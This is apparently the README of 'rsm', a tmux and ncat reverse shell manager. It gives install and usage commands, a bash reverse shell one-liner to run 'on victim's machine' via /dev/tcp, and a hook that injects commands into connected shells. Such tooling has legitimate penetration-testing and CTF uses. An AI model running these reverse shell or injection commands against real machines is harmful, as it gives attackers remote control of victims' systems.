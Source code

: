 # rsm

A simple reverse shell manager using `tmux` and `ncat`.

## Install

```shell
curl https://raw.githubusercontent.com/djosix/rsm/master/rsm > /usr/local/bin/rsm
```

## Quick Start

Listening on a port and attach to the session. (rsm creates a separated tmux socket, so it will not mess up your tmux sessions)

```shell
rsm 14641
```

On victim's machine, launch a reverse shell. Once the victim connects back, rsm will create a tmux window handling the TCP connection. The only thing you need to do is switching to that window in the rsm tmux session.

```shell
bash -c 'bash -i >& /dev/tcp/127.0.0.1/14641 0<&1'
```

If a rsm session is detached, you can attach to it using this:

```shell
rsm attach
```

Stop the server and cleanup. If no port is specified, rsm will stop all listening sessions.

```shell
rsm stop [port1] [port2] [...]
```

## Settings

Hooking the client connection, you can use `$IP` and `$PORT` in your command, which correspond to the client:

```shell
export RSM_HOOK='echo Hello, you are $IP:$PORT'
rsm d 12345

nc 127.0.0.1 12345
```

Client gets:

```
Hello, you are 127.0.0.1:50522
```

Injecting command to the reverse shell. (stdout of the hook command will be sent to the client socket, stderr will be printed out)

```shell
export RSM_HOOK='echo "echo hehe > ~/hacked"'
rsm d 12345

bash -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0<&1'
cat ~/hacked # hehe
```

Executing a command when rsm starts:

```shell
export RSM_WITH='ncat -lk 12345 -c "cat > test.txt"'
rsm d 22222
```

Other settings:

```shell
export RSM_DIR=$HOME/.rsm   # where rsm sockets will be
export RSM_MAX_CONN=32      # maximum number of connections
export RSM_MAX_RECV=32      # maximum receiving mega-bytes
rsm 13370
```

## Usage

```shell
$ rsm help
Usage:

    rsm PORT            Start a reverse shell listener on PORT
    rsm d[etached] PORT Start a detached reverse shell listener on PORT
    rsm l[ist]          List active rsm listeners
    rsm i[nfo] PORT     Show details of listener on PORT
    rsm i[nfo]          Show details of all rsm listeners
    rsm s[top] PORT     Stop a rsm listener on PORT
    rsm s[top]          Stop all rsm listeners
    rsm a[ttach] PORT   Attach to a rsm session listening on PORT
    rsm a[ttach]        Attach to the last rsm session
    rsm c[lean] PORT    Clean sockets for PORT
    rsm c[lean]         Clean all sockets
    rsm h[elp]          Show this help message

    Configurable Variables:

        RSM_DIR         Where the rsm sockets be stored (default: /tmp/.rsm)
        RSM_MAX_CONN    Maximum number of connections (default: 128)
        RSM_MAX_RECV    Maximum receiving MB (default: 64)
        RSM_HOOK        Command to eval when a client connects
        RSM_WITH        Command to eval when rsm starts

```
